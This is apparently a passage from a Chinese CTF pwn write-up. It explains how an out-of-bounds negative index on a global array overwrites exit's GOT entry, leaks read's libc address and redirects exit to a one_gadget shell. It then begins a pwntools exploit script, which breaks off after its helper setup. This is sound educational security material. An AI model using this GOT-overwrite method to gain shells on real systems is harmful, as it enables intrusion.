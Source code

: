 [![](assets/1701678450-218513fe9c11ae573bd4881298df3ba9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129210904-78ba7e12-8eb8-1.png)  
可以看到.got.plt 表离 bss 段的距离比较近，所以考虑用数组越界写来改变.got.plt 表

seat 的地址为 0x4040A0  
exit 的.got.plt 表的地址为 0x404040  
exit 在 seat 的低地址处，正好用负数来覆写  
两者之差为 96，96/16=6，所以用 -6 可以改变 exit  
把 exit 改成\_start 后可以实现程序的无限循环  
同时我们可以知道 exit 与 read 地址相差 16  
read 函数的后三位为 fc0，后三位是不会变的  
所以写入\\xc0 不改变 read 的地址  
然后就可以接收到 read 的真实地址  
one\_gadget libc-2.31.so  
收到后用 one\_gadget 搜索一下可用的 shell  
然后写入 -6 把退出变成执行 og 就行了

exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
```